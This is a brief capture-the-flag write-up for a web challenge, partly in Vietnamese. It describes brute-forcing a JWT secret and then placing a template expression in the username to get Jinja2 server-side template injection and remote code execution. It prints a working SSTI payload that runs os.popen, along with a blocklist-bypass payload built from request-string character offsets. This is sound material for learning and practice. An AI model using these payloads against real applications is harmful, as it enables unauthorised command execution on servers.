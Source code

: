 - ![Alt text](image-1.png)
- Start this challenge i know this is ssti vulnerability but i sit to bypass regex
![Alt text](image.png)
- I have thought about it in jwt but if I don't do it, it won't work
- Suggestions from the guys in the club i solver this challenge :
- Brute-force key, we have "torontobluejays"
- Let change username to RCE:
- Use payload jinja2(Python)
                                        {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
![Alt text](image-2.png)
- Malicious stuff: ["'", '_', 'os', 'popen', 'global']

{{()|attr((request|string).17~(request|string).18~(request|string).19~(request|string).20~(request|string).21~(request|string).22~(request|string).23~(request|string).24~(request|string).25)}}
- RCE thành công you yu will have
Flags: Có làm thì mới hehe
